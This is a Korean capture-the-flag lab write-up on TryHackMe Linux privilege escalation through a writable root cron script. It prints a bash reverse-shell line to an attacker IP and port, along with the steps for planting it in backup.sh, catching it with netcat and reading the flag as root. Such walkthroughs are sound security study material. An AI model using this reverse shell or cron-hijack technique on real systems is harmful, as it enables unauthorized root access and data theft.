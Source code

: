 ## Privilege Escalation: Cron jobs
> TryHackMe의 "Linux Privilege Escalation: Cronjobs" 실습을 기반으로, crontab에 등록된 주기적 실행 스크립트의 내용을 악의적으로 수정하여 루트 권한 획득 및 플래그 탈취에 성공하였다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.233.141
- **공격 머신**: Kali Linux
- **사용 계정**: `karen`
- **권한 상승 방법**: 크론잡(Cronjob)을 통한 루트 쉘 획득
- **실습 일자**: 2025-04-19

---

### 2. 실습 과정

#### 2.1 SSH 접속
```bash
ssh karen@10.10.233.141
```
- karen 계정으로 타겟 머신에 SSH 접속하였다.

![SSH 접속](./screenshots/ssh_connect.png)

---

#### 2.2 crontab 확인 및 취약점 식별
```bash
cat /etc/crontab
```
- 시스템에 등록된 주기 실행(cron) 항목을 확인하였다.

![crontab 확인](./screenshots/cat_crontab.png)

- `/home/karen/backup.sh`가 매분 실행되도록 등록되어 있었으며, 해당 파일은 karen 사용자에게 쓰기 권한이 부여되어 있었다. 이는 권한 상승의 기회를 의미한다.

---

#### 2.3 악성 스크립트 작성

```bash
vi /home/karen/backup.sh
```
- 원래는 zip 명령어로 파일을 백업하는 스크립트였으나, 이를 리버스 쉘 코드로 변경하였다.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.21.63.129/7777 0>&1
```
- 이 명령어는 bash 셸을 통해 공격자의 머신(10.21.63.129)의 7777 포트로 TCP 연결을 시도하며, 입출력을 해당 연결에 리디렉션함으로써 원격 쉘을 확보할 수 있도록 한다.
- 변경 후 실행 권한을 추가하였다.

```bash
chmod +x /home/karen/backup.sh
```

![악성 스크립트 수정](./screenshots/modify_script.png)

---

#### 2.4 리버스 쉘 대기 및 루트 쉘 획득

- Kali에서 아래와 같이 리버스 쉘 수신을 위해 포트 대기 상태를 설정하였다.

```bash
nc -lvnp 7777
```

- 1분 이내로 타겟 머신에서 루트 권한으로 크론잡이 실행되며, 공격자의 리스닝 포트로 접속이 이루어졌고 루트 권한의 쉘을 획득하였다.

```bash
find / -name flag5.txt
cat /home/ubuntu/flag5.txt
```

![루트 쉘 및 플래그 획득](./screenshots/root_flag.png)

- 루트 쉘 상태에서 플래그 파일을 찾아 읽어냈다.

---

### 3. 최종 결과
- 크론잡에 등록된 스크립트를 수정하여 루트 쉘 획득에 성공하였다.
- flag5.txt 파일에서 플래그 확보: `THM-383000283`

---

### 4. 배운 점

> ✅ 실습을 통해 crontab에 등록된 스크립트가 쓰기 가능한 상태일 경우, 간단한 리버스 쉘 삽입만으로도 루트 권한을 탈취할 수 있다는 점을 명확히 체감할 수 있었다. 주기적 실행 스크립트의 접근 제어 미흡은 치명적인 권한 상승 공격으로 이어질 수 있는 매우 위험한 보안 취약점임을 확인하였다.

